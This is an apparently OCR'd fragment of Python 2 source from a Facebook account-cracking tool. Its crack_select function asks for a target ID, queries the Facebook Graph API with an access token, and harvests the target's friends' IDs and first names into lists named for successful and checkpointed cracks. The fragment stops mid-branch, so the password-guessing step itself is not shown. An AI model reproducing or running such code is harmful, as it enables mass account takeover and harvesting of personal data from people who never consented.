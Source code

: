 def crack_select():

	select = raw_input("[!] Choose option: ")

	id=[]

	oks=[]

	cps=[]

	if select =="1":

		os.system("clear")

		print banner

		idt = raw_input("[!] Put ID/Username : ")

		try:

			r = requests.get("https://graph.facebook.com/"+idt+"?access_token="+token, headers=header)

			q = json.loads(r.text)

			os.system('clear')

			print banner

			print("[!] Target User : "+q["name"])

		except KeyError:

			print("")

			print("\033[1;91mInvalid Link Or Friendlist Has Privact").center(50)

			print("")

			time.sleep(3)

			crack()

		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+token, headers=header)

		z = json.loads(r.text)

		for i in z["data"]:

			uid = i["id"]

			na = i["name"]

			nm = na.rsplit(" ")[0]

			id.append(uid+"|"+nm)

	elif select =="2":

		os.system("clear")

		print banner

		idt = raw_input("[!] Put ID/Username : ")

		try:
